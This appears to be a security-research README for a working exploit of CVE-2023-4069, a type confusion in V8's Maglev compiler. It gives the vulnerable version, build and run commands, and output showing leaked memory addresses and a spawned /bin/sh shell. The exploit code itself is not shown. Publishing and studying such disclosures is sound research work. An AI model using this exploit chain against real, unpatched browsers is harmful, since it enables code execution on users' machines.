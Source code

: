 ## V8 type confusion CVE-2023-4069

The analysis of this bug can be found [here]( https://github.blog/2023-10-17-getting-rce-in-chrome-with-incomplete-object-initialization-in-the-maglev-compiler). 

The exploit here is tested on `v8` version 11.5.150.16, which is the version shipped with Chrome 115.0.5790.98/99, the one before the bug is fixed, on Ubuntu 22.04. I have not tested it on Chrome itself.

To test, check out `v8` at version 11.5.150.16 and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8` with the `maglev` flag (Chrome would have enabled this flag already):

```
./d8 --maglev poc.js
```

On Ubuntu 22.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 --maglev exploit.js
oobDblAddr: 421e9
oobDblArr new length: 256
oobDblAddr2: 42251
oobObjAddr: 42299
func Addr: 19bf6d
code Addr: 19eb79
maglev Addr: e000d900 55d6
$ 
```

Shell code and some addresses may need changing on other platforms.


